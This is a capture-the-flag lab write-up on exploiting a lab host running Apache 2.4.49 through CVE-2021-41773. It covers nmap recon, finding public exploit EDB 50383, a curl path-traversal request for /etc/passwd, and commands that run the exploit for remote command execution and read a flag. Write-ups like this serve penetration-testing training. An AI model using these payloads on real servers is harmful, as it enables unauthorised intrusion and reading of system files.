





# PublicExploits02 — Writeup

**Target:** 192.168.53.188 | **Attacker:** 192.168.49.53 | **OS:** Linux 4.x

Second box from the "Locating Public Exploits" chapter. This one was much more straightforward than PublicExploits01, but there was still a small stumble worth documenting.

---

## Recon

Full scan with aggressive mode:

```
nmap -A -T5 192.168.53.188
```

Only one port open: **80/tcp — Apache httpd 2.4.49 (Unix)**.



Apache 2.4.49 is a well-known vulnerable version. The HTTP title was "Paradigm Shifts" — some kind of company website. Checked it in the browser and it was a generic HTML5 template with a contact form, social links, and an email (`information@paradigmshifts.com`). Nothing useful on the site itself.



The attack surface here is the Apache version, not the website content.

---

## Finding the Exploit

Searched for the exact version:

```
searchsploit apache 2.4.49
```



Found **Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)** — EDB 50383, CVE-2021-41773. Verified, and it's a shell script. Copied it over:

```
searchsploit -m 50383
```

Read the source — it's simple. It takes a target list file, a path to read (for path traversal) or `/bin/sh` plus a command (for RCE). It uses the classic `%2e%2e` (dot-dot) encoding to traverse directories through `cgi-bin`.

---

## Minor Stumble: Manual Test Failed

Before running the exploit, I tried to manually confirm the vulnerability with curl:

```
curl "http://192.168.53.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

Got a **404 Not Found**. The `cgi-bin` directory didn't seem to exist, which made me doubt the exploit would work.

But looking at the exploit source more carefully, it chains **more traversal sequences** than my manual test did. The lesson: run the exploit before writing it off — the author might have handled edge cases you didn't.

---

## RCE

Created the target file and tested:

```
echo "http://192.168.53.188" > targets.txt
bash 50383.sh targets.txt /bin/sh whoami
```

Output: `daemon`. We have command execution.



---

## Flag

```
bash 50383.sh targets.txt /bin/sh "cat /home/offsec/flag.txt"
```



```
OS{02c5d66cb28b9a5c63445c82e545d405}
```

---

## Lessons Learned

1. **Apache 2.4.49 = instant red flag.** CVE-2021-41773 is one of those versions you should recognize on sight. Path traversal and RCE out of the box with a public exploit.

2. **Don't dismiss an exploit because a manual test fails.** My curl test returned 404, but the actual exploit worked fine. The exploit used more traversal levels and might handle the path differently than a quick manual check.

3. **Read the exploit source.** This one was a simple shell script — understanding the arguments (`targets.txt`, path, command) took 30 seconds and saved trial-and-error guessing.

4. **The flag file isn't always `proof.txt`.** In this case it was `flag.txt` under `/home/offsec/`. Always check what the hint says.
